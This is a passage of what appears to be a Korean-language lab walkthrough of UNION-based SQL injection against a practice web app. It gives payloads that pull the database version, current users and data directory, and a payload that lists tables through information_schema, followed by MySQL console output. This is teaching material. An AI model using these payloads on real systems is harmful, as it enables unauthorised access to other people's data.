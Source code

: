 * `''' union select 1,@@version,database(),user(),system_user(),@@version,@@datadir #`

![image](https://user-images.githubusercontent.com/28076542/51787447-7ce9b900-21b5-11e9-8797-3448f4ff6710.png)

### 4. Information_schema 조회하기

* `0' union select 1,table_name,3,4,5,6,7 from information_schema.tables #`

![image](https://user-images.githubusercontent.com/28076542/51787504-2466eb80-21b6-11e9-8b96-c9cf8863115d.png)

```bash
mysql> use information_schema
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------------------------+
| Tables_in_information_schema          |
+---------------------------------------+
| CHARACTER_SETS                        | 
| COLLATIONS                            | 
| COLLATION_CHARACTER_SET_APPLICABILITY | 
| COLUMNS                               | 
| COLUMN_PRIVILEGES                     | 
| KEY_COLUMN_USAGE                      | 
| PROFILING                             | 
| ROUTINES                              | 
| SCHEMATA                              | 
| SCHEMA_PRIVILEGES                     | 
| STATISTICS                            | 
| TABLES                                | 
| TABLE_CONSTRAINTS                     | 
| TABLE_PRIVILEGES                      | 
| TRIGGERS                              | 
| USER_PRIVILEGES                       | 
| VIEWS                                 | 
+---------------------------------------+
17 rows in set (0.00 sec)

mysql> select table_name from tables;
+---------------------------------------+
| table_name                            |
+---------------------------------------+
| CHARACTER_SETS                        | 
| COLLATIONS                            | 
| COLLATION_CHARACTER_SET_APPLICABILITY | 
| COLUMNS                               | 
| COLUMN_PRIVILEGES                     | 
| KEY_COLUMN_USAGE                      | 
| PROFILING                             | 
| ROUTINES                              | 
| SCHEMATA                              | 
| SCHEMA_PRIVILEGES                     | 
| STATISTICS                            | 
| TABLES                                | 
| TABLE_CONSTRAINTS                     | 
| TABLE_PRIVILEGES                      | 
| TRIGGERS                              | 
| USER_PRIVILEGES                       | 
| VIEWS                                 | 
| blog                                  | 
| heroes                                | 
| movies                                | 
```